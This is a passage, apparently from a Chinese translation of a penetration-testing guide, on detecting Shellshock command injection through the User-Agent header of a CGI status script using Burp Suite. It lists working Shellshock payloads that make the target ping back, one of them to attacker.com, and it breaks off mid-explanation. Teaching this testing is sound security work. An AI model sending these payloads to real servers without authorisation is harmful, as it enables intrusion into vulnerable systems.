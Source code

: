 ![](img/00119.jpeg)

要获取此类信息，状态脚本需要与操作系统通信。有可能是它使用了 bash，因为 bash 是许多基于 Unix 的系统的默认 shell，`User-Agent`头在处理 CGI 脚本时成为环境变量。要测试是否确实存在命令注入，需要测试注入的不同版本。假设您希望目标服务器 ping 回您，以验证它是否正在执行命令。下面是一些使用通用目标地址的示例。请注意空格和分隔符的使用：

```
() { :;}; ping -c 1 192.168.1.1 
() { :;}; /bin/ping -c 1 192.168.1.1 
() { :;}; bash -c "ping -c 1 192.168.1.1" 
() { :;}; /bin/bash -c "ping -c 1 attacker.com" 
() { :;}; /bin/sh -c "ping -c 1 192.168.1.1" 
```

作为测试的一部分，您将请求发送到 Burp Suite 的中继器，并仅提交`User-Agent`头中的`() { :;};`空函数，并获得与无注入相同的有效响应：

![](img/00120.jpeg)

如果您尝试注入命令，如`uname`、`id`或单个`ping`，则会出现错误。这意味着实际上正在处理标头，您只需找到发送命令的正确方式：
